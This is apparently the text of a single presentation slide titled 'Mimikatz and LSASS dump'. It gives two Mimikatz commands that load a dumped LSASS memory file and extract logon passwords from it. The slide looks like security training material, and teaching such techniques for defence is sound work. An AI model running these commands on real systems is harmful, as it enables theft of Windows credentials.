

Mimikatz and LSASS dump
sekurlsa::minidump C:\lsass.DMP
sekurlsa::logonpasswords